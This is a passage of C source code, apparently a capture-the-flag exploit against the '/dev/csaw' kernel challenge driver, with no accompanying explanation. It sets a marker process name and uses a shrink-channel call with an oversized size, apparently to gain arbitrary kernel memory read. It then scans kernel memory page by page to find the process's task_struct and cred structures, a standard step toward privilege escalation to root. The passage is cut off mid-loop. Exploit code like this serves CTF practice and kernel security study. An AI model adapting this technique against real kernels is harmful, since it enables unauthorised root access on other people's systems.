 ```
};

struct read_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct write_channel_args{
    int id;
    char *buf;
    size_t count;
};

struct seek_channel_args{
    int id;
    loff_t index;
    int whence;
};

int main(int argc, char *argv[], char *envp[])
{
    struct alloc_channel_args alloc_channel;
    struct shrink_channel_args shrink_channel;
    struct read_channel_args read_channel;
    struct write_channel_args write_channel;
    struct seek_channel_args seek_channel;

    //setvbuf(stdout, 0LL, 2, 0LL);
    char *buf = malloc(0x1000);
    char pid[1];
    size_t addr;
    size_t search;
    size_t cred, real_cred, task_struct;
    char *comm = "De4dCr0wCCxD_pD\0";
    prctl(PR_SET_NAME, comm);

    int fd = open("/dev/csaw", O_RDWR);
    if(fd < 0){
        printf("[-] open dev error!\n");
        return 0;
    }
    alloc_channel.id = -1;
    alloc_channel.buf_size = 0x100;
    ioctl(fd, CSAW_ALLOC_CHANNEL, &alloc_channel);
    if(alloc_channel.id == -1){
        printf("[-] alloc channel failed!\n");
        return 0;
    }

    shrink_channel.id = alloc_channel.id;
    shrink_channel.size = 0x101;
    ioctl(fd, CSAW_SHRINK_CHANNEL, &shrink_channel);

    for(addr = 0xffff880000000000; addr < 0xffffc80000000000; addr += 0x1000){ //按页遍历
        seek_channel.id = alloc_channel.id;
        seek_channel.index = addr-0x10;
        seek_channel.whence = SEEK_SET;
        ioctl(fd, CSAW_SEEK_CHANNEL, &seek_channel);

        read_channel.id = alloc_channel.id;
        read_channel.buf = buf;
        read_channel.count = 0x1000;
```